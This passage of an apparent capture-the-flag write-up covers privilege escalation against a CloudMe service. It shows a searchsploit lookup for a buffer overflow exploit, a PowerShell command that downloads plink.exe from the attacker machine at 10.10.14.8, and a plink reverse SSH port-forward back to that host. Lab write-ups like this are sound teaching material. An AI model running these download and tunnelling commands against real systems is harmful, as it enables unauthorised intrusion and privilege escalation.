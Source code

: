 3\. We find a buffer overflow exploit for this application that could give us elevated privileges if the `CloudMe` process is running as Administrator:  
``` {.python .numberLines}
searchsploit cloudme

```

![writeup.privesc.steps.3.1](./screenshot11.png)  

4\. But we cannot connect to this service from our attacking machine. We will need to setup a port forward for this exploit to work. We start the SSH service on our attacking machine, transfer the `plink.exe` binary and setup the port forward:  
``` {.python .numberLines}
service ssh restart
service ssh status
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/plink64.exe','C:\Users\shaun\Desktop\plink.exe')"
C:\Users\shaun\Desktop\plink.exe -v -x -a -T -C -noagent -ssh -pw "kali" -R 8888:127.0.0.1:8888 kali@10.10.14.8

```

![writeup.privesc.steps.4.1](./screenshot12.png)  
